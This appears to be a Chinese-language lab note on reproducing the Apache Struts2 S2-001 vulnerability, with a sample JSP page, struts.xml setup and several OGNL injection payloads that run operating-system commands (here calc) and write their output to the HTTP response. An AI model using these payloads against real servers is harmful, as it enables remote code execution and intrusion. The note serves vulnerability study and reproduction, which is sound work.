 
```java
<%@ page language="java" contentType="text/html; charset=UTF-8"
         pageEncoding="UTF-8"%>
<%@ taglib prefix="s" uri="/struts-tags" %>

<html>
<head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
    <title>S2-001</title>
</head>
<body>
<p>Hello <s:property value="username"></s:property></p>
</body>
</html>
```
![微信截图_20230731152754.png](https://cdn.nlark.com/yuque/0/2023/png/34502958/1690788481096-aba31122-cb89-4d0f-a78c-ddfd5f5e18ab.png#averageHue=%233c4044&clientId=ubb712265-4c40-4&from=paste&height=675&id=u5e856b32&originHeight=844&originWidth=1271&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=38321&status=done&style=none&taskId=u38f0b7ae-b4a0-4bea-a672-99dde0ce3f4&title=&width=1016.8)改个输出路径，lib下面导入所有库。<br />为了方便debug可以把tomcat的jar复制到lib下面。<br />resources的下面建立个struts.xml
```java
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE struts PUBLIC
        "-//Apache Software Foundation//DTD Struts Configuration 2.0//EN"
        "http://struts.apache.org/dtds/struts-2.0.dtd">

<struts>
    <package name="S2-001" extends="struts-default">
        <action name="login" class="com.test.s2001.action.LoginAction">
            <result name="success">welcome.jsp</result>
            <result name="error">index.jsp</result>
        </action>
    </package>
</struts>
```
<a name="csBcx"></a>
# S2-001
版本：Struts 2.0.0 - Struts 2.1.8.1
```java
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cmd","-c","clac"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

```java
%{(new java.lang.ProcessBuilder(new java.lang.String[]{"calc"})).start()}
```
```java
%{(#a=new java.lang.String("calc")).(@java.lang.Runtime@getRuntime().exec(#a))}
```
```java
%{(#a=new java.lang.String("calc")),(@java.lang.Runtime@getRuntime().exec(#a))}
```
从xml说起
```java
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE struts PUBLIC
        "-//Apache Software Foundation//DTD Struts Configuration 2.0//EN"
        "http://struts.apache.org/dtds/struts-2.0.dtd">

<struts>
    <package name="S2-001" extends="struts-default">
        <action name="login" class="com.test.s2001.action.LoginAction">
            <result name="success">welcome.jsp</result>
```